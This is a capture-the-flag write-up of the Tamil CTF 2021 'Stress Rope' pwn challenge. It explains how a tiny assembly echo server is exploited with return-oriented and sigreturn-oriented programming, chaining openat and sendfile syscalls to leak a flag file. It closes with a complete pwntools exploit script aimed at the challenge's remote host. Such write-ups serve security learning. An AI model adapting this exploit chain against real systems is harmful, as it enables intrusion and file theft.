 ## **Stress Rope**

was a pwn challenge from Tamil CTF 2021.

it is a small echo server written in assembly, very small, with no libc, very few gadgets..

there are may ways to exploit it, let's look at the reverse

![](https://github.com/nobodyisnobody/write-ups/raw/main/Tamil.CTF.2021/pwn/Stress.Rope/pics/reverse.png)

so my exploitation goes like this:

**1st step:**

![](https://github.com/nobodyisnobody/write-ups/raw/main/Tamil.CTF.2021/pwn/Stress.Rope/pics/step1.png)

we return to 0x40008d address, at the "sub rsi,8" , to read again another bloc, a bit before on stack, to put the filename of the file we want to open there (rsi will point on it). we wait for the next send so...

**2nd step:**

![](https://github.com/nobodyisnobody/write-ups/raw/main/Tamil.CTF.2021/pwn/Stress.Rope/pics/step2.png)

we send the filename that will be written to rsi, we adjust the packet size to 257 , the syscall number of openfileat, which act as open, but the filename is in rsi and not rdi, which is simpler to setup for us. If the filename is absolute, rdi will just be ignored..perfect for us.

We use a little trick, /proc/self/cwd/flag.txt is used as a path, which means the current directory of the actual process..as we don't know the name of the remote directory..

we call the syscall gadget 0x40009b (with rsi, and rax = 257)

then we call one time 0x4000a3 so send back to the program a 8 bytes blocs, to make stop between read.. as the buffering can otherway add small packet sending into a bigger one.

then we return again to read for step3

**3rd step:**

![](https://github.com/nobodyisnobody/write-ups/raw/main/Tamil.CTF.2021/pwn/Stress.Rope/pics/step3.png)

ok know that we have open the filename for the flag, we are going to put a sigrop frame on stack for the last step.

We don't know the fd number returned by openfileat, but as only stdin, stdout, stderr, a socket should be open remotely..it's probably a small numer, 4, 5 or 6 ....we can guess it quickly..

the frame we prepared looks like this

![](https://github.com/nobodyisnobody/write-ups/raw/main/Tamil.CTF.2021/pwn/Stress.Rope/pics/sigrop.png)

it is a call to sendfile syscall, which take an input fd, and output fd, and a length basically.

It will transfer data from the opened fd from openfileat (the flag), to stdout (fd = 1)

and we will receive it...

**4th step:**

![](https://github.com/nobodyisnobody/write-ups/raw/main/Tamil.CTF.2021/pwn/Stress.Rope/pics/step4.png)

last step, but not least...

we send a payload of size 15, so setup rax=15 for sigreturn syscall..

and so we execute the sendfile syscall, that will send us back our flag...



<u>here is the exploit code:</u>

```python3
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'debug'

exe = ELF('./echo-echo')

host, port = "3.97.113.25", "9002"

p = remote(host,port)

# sendfile sigrop frame ; send us back the opened file via stdout
frame = SigreturnFrame(arch="amd64", kernel="amd64")
frame.rax = 40		# sendfile syscall number
frame.rdi = 1		# stdout
frame.rsi = 5		# remote fd for file opened (found after some tries)
frame.rdx = 0
frame.r10 = 512		# arbitrary size
frame.rsp = 0x400800	# arbitrary stack address (will crash after output anyway)
frame.rip = 0x40009b    # syscall gadget

frame = bytes(frame)
frame = frame[0:0xd0]	# we cut down the size of the frame, because we don't care of the end (empty)

gadget1 = 0x4000a3

# first return back to read, but at sub rsi,8 to write before our buffer the filename
payload = p64(0xdeadbeef)+p64(0x40008d)
payload = payload.ljust(0x12c,'\x00')
p.send(payload)

# send the filename to open and continue ROPPING, sometimes output 8 bytes, to stop between read & write
payload2 = '/proc/self/cwd/flag.txt'.ljust(24,'\x00')+p64(0x40009b)+p64(0x4000a3)+p64(0x400085)
# set the length of this payload to 257, to set eax=257 for next part (openfileat syscall)
payload2 = payload2.ljust(257,b'\x00')
p.send(payload2)

print(p.recv(8))

# put the frame for the sigrop on stack
payload3 = p64(0xdeadbeef)+p64(0x400085)+p64(0xdeadbeef)+frame
payload3 = payload3.ljust(0x12c,'\x00')
p.send(payload3)

# set this payload length to 15, to set eax=15 for sigreturn syscall
payload4 = p64(0xdeadbeef)+p64(0x40009b)[0:7]
payload4 = payload4.ljust(15,b'\x00')
p.send(payload4)

# we receive back flag now send by the sendfile sigrop
p.interactive()
```

*nobodyisnobody still pwning things*